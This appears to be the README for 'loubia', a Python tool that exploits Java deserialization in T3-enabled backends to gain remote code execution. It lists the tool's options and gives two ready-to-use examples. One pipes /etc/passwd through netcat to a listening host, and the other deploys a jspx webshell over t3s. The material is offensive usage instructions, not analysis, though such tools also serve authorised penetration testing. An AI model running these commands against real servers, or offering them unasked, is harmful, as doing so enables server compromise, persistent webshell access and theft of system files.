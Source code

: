 # loubia
Python script that achieves remote code execution on t3 enabled backends. This is possible thanks to (or because of) the Java Unserialize vulnerability.
# Usage
Below is the help of Loubia showing its awesome functionalities:

		Usage: loubia.py hostname port [options]
		Options:
		  --version             show program's version number and exit
		  -h, --help            show this help message and exit
		  -c PAYLOAD, --cmd=PAYLOAD
		                        Command to execute
		  -o OS, --os=OS        Target operating system (unix/win). Default is unix
		  -l SHELL, --shell=SHELL
		                        shell to use (sh/bash). Default is sh
		  -s, --ssl             Use t3s protocol. Default : false
		  -p PROTOCOL, --protocol=PROTOCOL
		                        SSL protocol to use (sslv3/tlsv1/best). Default is
		                        sslv3
		  -w, --webshell        Deploy a jspx webshell
		  -u URL, --url=URL     Deploy the jspx webshell to the target URL path
		                        (webshell name will be URL_.jspx)
		  -v, --verbose         Print verbose output. Default : false

Examples:

Disclosing /etc/passwd to a local listening socket

		./loubia.py 192.168.1.2 7001 -c "cat /etc/passwd | nc 192.168.1.3 6666"
								
Deploying a webshell using bash on t3s

		./loubia.py 192.168.1.2 7002 -s -l bash -w

# Details
For more details see this post http://wtfsec.blogspot.fr/2016/03/loubia-exploitation-of-java-unserialize.html
